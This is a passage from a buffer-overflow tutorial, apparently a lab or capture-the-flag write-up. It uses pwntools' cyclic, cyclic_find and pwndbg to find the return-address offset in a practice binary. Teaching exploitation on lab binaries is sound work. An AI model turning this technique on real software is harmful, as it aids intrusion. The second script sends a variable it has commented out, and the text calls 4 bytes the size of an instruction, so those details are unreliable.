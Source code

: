 To do this we can make use of the tool cyclic, which comes with pwntools. Cyclic creates a patterned string of desired length which we can transmit to the binary to observe which part of the string overflowed the return address. We add `gdb.attach(target_binary)` to the exploit script in order to attach with gdb to the program while the exploit runs.

```python
from pwn import *

target_binary = process('./win_example')

# attach to the running program in
# pwdbg and break at the main function
gdb.attach(target_binary, 'break main')

# receive the banner from the 
# program
log.info(target_binary.recvuntil('Here we goooooooooo...\n'))

# send pattern string to overflow buffer
overflow_test = cyclic(100)                 # create a pattern of 100 bytes in length
target_binary.sendline(overflow_test)
target_binary.interactive()
```

If we do this and then type `continue` or `c` in the `pwndbg` window that opens we will see the binary crash with a `segfault`.

> Program received signal SIGSEGV, Segmentation fault.

Which happens when the program attempts to return to:

> Invalid address 0x616f6161

We know this because the `EIP` register points to `0x616f6161` which is not a valid place for the program to return to. In fact this 'address' is the ASCII value for `aaoa`, a part of the cyclic pattern string we sent to the program. Pwndbg also tells us the value as a string that this address corresponds to. 

This means that to overflow to just **before**, that is 4 bytes before (the size of one instruction), the return pointer of the function (`vuln` in this case) we must supply up to `aaoa` bytes of the cyclic string to the program. We can work out what this is as a decimal value using the `cyclic_find` function which tells us the offset to a particular 4 byte part of the pattern.

```python
from pwn import *

target_binary = process('./win_example')

# attach to the running program in
# pwdbg and break at the main function
gdb.attach(target_binary, 'break main')

# receive the banner from the 
# program
log.info(target_binary.recvuntil('Here we goooooooooo...\n'))

# send pattern string to overflow buffer
# overflow_test = cyclic(100)
bytes_to_before_ret = cyclic_find(b'aaoa')		# 54
log.info(f'{bytes_to_before_ret}')				

target_binary.sendline(overflow_test)
target_binary.interactive()
```
